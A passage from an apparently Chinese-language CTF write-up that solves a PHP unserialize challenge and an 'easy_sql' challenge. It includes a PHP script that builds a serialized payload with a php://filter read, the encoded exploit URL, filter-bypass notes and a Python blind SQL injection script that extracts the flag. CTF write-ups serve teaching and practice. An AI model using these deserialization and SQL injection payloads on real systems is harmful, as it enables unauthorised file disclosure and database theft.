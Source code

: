 ```php
<?php 

class body{

    private $want;

    function __construct($want){
        $this->want = $want;
    }
}

class unserializeorder{
    public $CORE = "php://filter/read=convert.base64-encode/resource=f14g.php";
}

$a = new body(new unserializeorder());

echo urlencode(serialize($a));
?>
```

```
http://43.143.7.97:28005/?ywant=O%3A4%3A%22body%22%3A2%3A%7Bs%3A10%3A%22%00body%00want%22%3BO%3A16%3A%22unserializeorder%22%3A1%3A%7Bs%3A4%3A%22CORE%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Df14g.php%22%3B%7D%7D
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210051918643.png)

### easy_sql

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210051948852.png)

过滤了 and information_schema 空格

information_schema 可以用 InnoDB 的表代替, 刚好数据库用户是 root, 版本号也满足

注释也被过滤了, 需要用 or 构造一下

然后就是利用子查询进行无列名盲注, 因为 InnoDB 的表查不了列名

```python
import requests

url = 'http://43.143.7.97:28635/index.php'

flag = ''

for i in range(9999):
    for s in range(32,128):
        #sql = "123'or(if(ascii(substr((select/**/group_concat(database_name)/**/from/**/mysql.innodb_table_stats),{},1))={},1,0))or'1'='11".format(i,s)
        #sql = "123'or(if(ascii(substr((select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='ctftraining'),{},1))={},1,0))or'1'='11".format(i,s)
        sql = "123'or(if(ascii(substr((select/**/group_concat(`1`)/**/from/**/(select/**/1/**/union/**/select/**/*/**/from/**/ctftraining.flag)x),{},1))={},1,0))or'1'='11".format(i,s)
        res = requests.post(url,data={'id':sql})
        if 'error' in res.text:
            print('filtered !!!')
            exit()
        if 'handsome' in res.text:
            flag += chr(s)
            print(flag)
            break
```
